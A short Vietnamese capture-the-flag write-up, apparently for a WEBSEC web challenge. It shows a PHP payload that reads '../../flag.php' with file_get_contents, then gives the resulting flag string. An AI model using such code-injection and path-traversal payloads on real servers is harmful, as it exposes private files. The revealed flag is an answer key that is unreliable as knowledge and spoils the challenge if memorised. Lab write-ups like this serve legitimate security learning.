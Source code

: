 Tiến hành đọc nội dung file này sử dụng hàm file_get_contents():

`<?php echo file_get_contents('../../flag.php'); ?>`

Và nhận được flag

![image](https://user-images.githubusercontent.com/80137840/222917382-64b1dcad-ef24-4810-9c84-91fd556cd957.png)

Submit flag: `WEBSEC{no_javascript_no_php_I_guess_you_used_COBOL_to_get_a_RCE_right?}`

![image](https://user-images.githubusercontent.com/80137840/222917631-d32b3c11-7da6-4642-ae9a-a3f6dc0cd699.png)

Done!!!
